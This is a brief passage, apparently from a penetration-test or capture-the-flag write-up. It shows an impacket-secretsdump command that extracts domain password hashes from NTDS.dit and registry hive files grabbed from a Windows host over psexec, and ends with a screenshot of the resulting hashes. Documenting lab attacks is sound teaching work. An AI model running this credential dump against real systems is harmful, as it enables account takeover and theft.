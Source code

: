 I run the following command:
`impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -security SECURITY -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit local | tee dump-hashes.out`

And like magic we have the hashes!
![f4e62248c7f051bad9aeecce74964619.png](../_resources/f4e62248c7f051bad9aeecce74964619.png)
